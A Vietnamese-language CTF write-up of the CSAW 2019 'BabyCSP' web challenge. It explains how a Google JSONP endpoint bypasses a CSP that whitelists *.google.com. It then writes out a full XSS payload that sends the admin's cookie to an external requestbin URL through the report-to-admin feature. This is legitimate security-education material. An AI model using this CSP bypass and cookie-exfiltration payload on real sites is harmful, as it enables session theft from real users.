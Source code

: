 # CSAW CTF Qualification Round 2019

----
## BabyCSP ([Link](http://web.chal.csaw.io:1000/))
    Mà có vẻ tính đến thời điểm này thì link đóng mất tiêu rồi ...
    
- Nói chung thì cũng là lần đầu giải CTF online, văn kém nên viết writeup cũng hơi lủng củng... 1 phần thì cũng là do may mắn khi google nên rất nhanh mình đã tìm được hướng đi cho bài này, phần còn lại thì cũng giải khá nhiều bài XSS nên phần sau của bài CSP này của mình cũng khá nhanh. Cảm giác rất dễ chịu cho bài CTF online đầu tiên. Qua đến bài Unagi thì... mù tịt hướng đi... Dù đã làm nhiều về upload file liên quan tới image rồi nhưng với xml thì chưa bao giờ làm. Sau 1 đoạn thời gian google không có kết quả khả quan thì mình quyết định đi học bài để mai thi... Kết thúc kỷ niệm về bài giải CTF online...

- Mở đầu đề bài 1 đoạn CSP sau:

> Sơ bộ 1 chút thì Content Security Policy (CSP) là chính sách bảo mật nội dung, được sử dụng để xác định các nguồn nội dung an toàn trên website mà trình duyệt có thể tải về cho người dùng. CSP là biện pháp đối phó rất hiệu quả với kiểu hack chèn mã độc Cross Site Scripting (XSS).

![csp](image/csp.png)

- Chú ý đến đoạn: `script-src 'self' *.google.com`
    - Hiểu đơn giản 1 chút thì đoạn csp trên chỉ định rõ nguồn sử dụng Javascript hợp lệ là `*google.com`
        - Để hiểu rõ hơn thì: [link](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)
- Vấn đề là bây giờ kiếm đâu ra nguồn Javascript của google và gắn đoạn payload của mình vô để bypass qua csp của bài... Thôi google để xem có tìm thấy gì đó hữu ích không...
- Mình là con người đơn giản, đề cho cái gì thì ghi sạch lên google để tìm thử: `bypass csp xss script src google.com`
- Mò 1 hồi thì cũng tìm thấy thông tin hữu ích... [Link](https://appio.dev/vulns/google-csp-evaluator/)
    - Để ý đoạn này: `The first one is that *.google-analytics.com hosts JSONP endpoints, that would allow us to bypass the CSP.`
    - Cũng như `*.google.com`, ta có thể bypass qua csp bằng JSONP endpoints

- Rất may là trong link đó họ cho cả 1 whitelist JSONP luôn, đỡ mất công tìm
    - Phân vân 1 hồi thì mình chọn link sau để thêm payload vào: `https://accounts.google.com/o/oauth2/revoke?callback=`
    - Test luôn, không nói nhiều, nhồi 1 đoạn Javascript đơn giản `alert(1)` vô link rồi submit xem có gì xảy ra không

    `<script type="text/javascript" src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1)"></script>`
    - Vì viết writeup hơi muộn nên web đóng mất tiêu rồi. Ảnh nào có thì up luôn, ảnh nào không có thì đi mượn ké vậy...

    ![alert](alert.png)
   - Thành công mỹ mãn, giờ thì dễ rồi. Tạo 1 requestsbin ngay và luôn để hứng flag thôi chứ làm gì
   - đoạn payload để get cookie admin của mình: `location.replace('https://enzbo4rvhzz9n.x.pipedream.net/?key='%2bdocument.cookie)`

        - Giải thích 1 chút thì hàm `location.replace` sẽ ngay lập tức dẫn client đến URL format `location.replace(URL)`, ở đây kèm theo hàm `document.cookie` nữa để GET ra cookie của admin`

- Payload cuối cùng để mình submit lên đó là:
`<script type="text/javascript" src="https://accounts.google.com/o/oauth2/revoke?callback=location.replace('https://enzbo4rvhzz9n.x.pipedream.net/?key='%2bdocument.cookie)"></script>`

- Tuy nhiên là có vấn đề nho nhỏ ở đây, mới đầu ta submit payload lên thì nó đi thẳng tới requestsbin luôn, tức là nó gửi cookie của ta lên requestsbin luôn, lấy làm gì nhỉ, bộ flag trong source luôn chắc...

- Bây giờ ra submit đại 1 cái gì đó lên, rồi nhấn vô `report to admin`, và bây giờ ta được chuyển qua link `http://web.chal.csaw.io:1000/report?id=52279` trong 1 khoảng khắc. Giờ rõ rồi, mỗi submit sẽ tạo 1 post chứa id riêng và khi report lên admin thì chỉ cần thay id là được.
- Giờ đơn giản rồi, submit lại payload và lấy ra id của nó. Thay vô link report rồi report lên admin lại là xong. Bây giờ lên requestsbin lấy flag thôi

![flag](image/flag.png)

